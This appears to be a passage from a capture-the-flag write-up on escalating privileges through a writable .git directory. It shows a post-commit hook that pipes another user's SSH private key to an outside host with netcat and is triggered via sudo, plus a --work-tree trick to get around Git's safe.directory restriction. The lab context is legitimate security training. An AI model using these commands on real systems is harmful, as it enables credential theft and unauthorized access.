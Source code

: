 And `/var/www/image/.git` has Access Control List (ACL) extended attributes.
```bash
www-data@encoding:~/image$ getfacl .git
getfacl .git
# file: .git
# owner: svc
# group: svc
user::rwx
user:www-data:rwx
group::r-x
mask::rwx
other::r-x
```

* We have write access in the `.git` directory.
* There is a trick in [gitfobins](https://gtfobins.github.io/gtfobins/git/) to run system command  using git hooks. but we can not use "pre-commit" hooks.
* But we can also use "post-commit" hooks to execute command.

```bash
cd /var/www/image
echo 'cat /home/svc/.ssh/id_rsa|nc 10.10.14.29 4141' >"/var/www/image/.git/hooks/post-commit"
chmod +x /var/www/image/.git/hooks/post-commit
sudo -u svc /var/www/image/scripts/git-commit.sh
```

But it is not working because there is no changes in the `/var/www/image` directory.

![](screenshots/git-pre-hook-1.png)

We need to make some changes in the repo to trigger commit but we can not add any file from outside the git working directory which set in the config file.
* the `directory` option in the `[safe]` section of the Git configuration file is used to prevent adding files from outside the repository directory.
```bash
www-data@encoding:~/image$ cat ../.gitconfig
cat ../.gitconfig
[safe]
        directory = /var/www/image
```

But can write into `.git` directory, and use `--work-tree` flag and specify outside directory.
* The `--work-tree` option is meant to allow running Git commands from a different directory than the repository's working directory.

This command adds the file `/etc/hostname` to the Git index for the current Git repository we are in.
